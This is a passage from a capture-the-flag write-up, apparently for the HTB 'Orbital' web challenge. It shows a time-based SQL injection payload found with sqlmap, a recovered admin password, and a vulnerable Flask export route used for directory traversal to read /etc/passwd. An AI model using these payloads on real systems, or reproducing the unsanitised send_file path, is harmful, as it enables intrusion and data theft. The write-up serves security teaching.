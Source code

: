 ```
[*] ending @ 19:29:01 /2023-03-20/
```
Running sqlmap quickly picked up the proper payload to use for SQL injection. The payload utilized:
```
Payload: {"username":"admin" AND (SELECT 4429 FROM (SELECT(SLEEP(5)))Llei)-- Mhzj","password":"password"}
```
And fortunately with this, sqlmap is able to grab admin's password from the database. The login credentials are as follows:
```
{"username":"admin","password":"ichliebedich"}
```
Using these credentials gets us in.

Now that we are in, we can see a lot of static information on this page but no flag in plain sight. At the bottom of the page, we see an export option that will prompt us to download a `communication.mp3` file. We saw some information on an export page in the source code, so let's revisit this to get a better idea on what's going on.
In blueprints/test.py:
```
def exportFile():
    if not request.is_json:
        return response('Invalid JSON!'), 400
    
    data = request.get_json()
    communicationName = data.get('name', '')

    try:
        # Everyone is saying I should escape specific characters in the filename. I don't know why.
        return send_file(f'/communications/{communicationName}', as_attachment=True)
    except:
        return response('Unable to retrieve the communication'), 400
```
We see there is a lack of sanitization on how it is grabbing the file to export. If we can edit the file name we are requesting, we can perform directory traversal to grab any file that is not read-protected. To check this, we will look for the always-readable /etc/passwd.
In burpsuite:
Request
![image](https://github.com/spencerja/HTB_CyberApocalypse2023_Writeup/blob/main/Web/Orbital/screencaps/Pasted%20image%2020230325194705.png)
Response